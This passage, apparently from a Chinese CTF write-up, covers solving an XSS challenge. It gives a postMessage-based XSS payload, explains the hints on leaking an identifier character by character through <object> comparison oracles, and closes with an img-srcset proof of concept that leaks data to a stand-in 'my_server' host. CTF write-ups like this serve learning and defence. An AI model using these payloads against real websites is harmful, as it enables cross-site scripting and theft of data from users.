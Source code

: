 ```
    function expxss(identifier) `{`
        stop = true;
        top.postMessage(`{`
            type: 'waf',
            identifier,
            str: `&lt;img src=x onerror=alert("flag`{`THIS_IS_THE_FLAG`}`")&gt;`,
            safe: true
        `}`, '*')

    `}`
    onload = () =&gt; `{`
        setTimeout(watchForNameChange, 60);
    `}`
&lt;/script&gt;
&lt;/body&gt;
&lt;/html&gt;
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t011696ca1cf6e2548a.png)

[![](https://p0.ssl.qhimg.com/t01dc43430121959fb5.png)](https://p0.ssl.qhimg.com/t01dc43430121959fb5.png)

成功实现xss，通过挑战！

这里再对hits进行一个解释：

> <p>（4.19）First hint: find the objective!【 提示`&lt;object&gt;`】<br>
（4.20）Time for another hint! Where to smuggle data?【提示`object data`以及后面可以利用的`locatino.hash`】<br>
（4.20）Time for another tip! One bite after another!【提示需要一位一位的泄露`identifier`】<br>
（4.20）Here’s an extra tip: ++ is also an assignment 【提示可以利用++巧妙的跨站测算出`identifier`】<br>
（4.22）Let’s give another hint:”Behind a Greater Oracle there stands one great Identity” (leak it) 【提示构造比较的方式泄露`identifier`】<br>
（4.23）Tipping time! Goal &lt; object(ive) 【提示利用`&lt;object`标签，采用`identifier&lt;"str"`的方式构造比较】<br>
（4.24）Another hint: you might need to unload a custom loop! 【提示构造循环】</p>

最后，再放一些利用其他方式的POC。<br>
利用`&lt;img&gt;`:

```
var payload = `
&lt;img srcset=//my_server/0 id=n0 alt=#&gt;
&lt;img srcset=//my_server/1 id=n1 alt=a&gt;
&lt;img srcset=//my_server/2 id=n2 alt=b&gt;
&lt;img srcset=//my_server/3 id=n3 alt=c&gt;
&lt;img srcset=//my_server/4 id=n4 alt=d&gt;
&lt;img srcset=//my_server/5 id=n5 alt=e&gt;
&lt;img srcset=//my_server/6 id=n6 alt=f&gt;
&lt;img srcset=//my_server/7 id=n7 alt=g&gt;
&lt;img srcset=//my_server/8 id=n8 alt=h&gt;
&lt;img srcset=//my_server/9 id=n9 alt=i&gt;
&lt;img srcset=//my_server/a id=n10 alt=j&gt;
&lt;img srcset=//my_server/b id=n11 alt=k&gt;
&lt;img srcset=//my_server/c id=n12 alt=l&gt;
&lt;img srcset=//my_server/d id=n13 alt=m&gt;
&lt;img srcset=//my_server/e id=n14 alt=n&gt;
&lt;img srcset=//my_server/f id=n15 alt=o&gt;
&lt;img srcset=//my_server/g id=n16 alt=p&gt;
&lt;img srcset=//my_server/h id=n17 alt=q&gt;
&lt;img srcset=//my_server/i id=n18 alt=r&gt;
&lt;img srcset=//my_server/j id=n19 alt=s&gt;
&lt;img srcset=//my_server/k id=n20 alt=t&gt;
&lt;img srcset=//my_server/l id=n21 alt=u&gt;
&lt;img srcset=//my_server/m id=n22 alt=v&gt;
```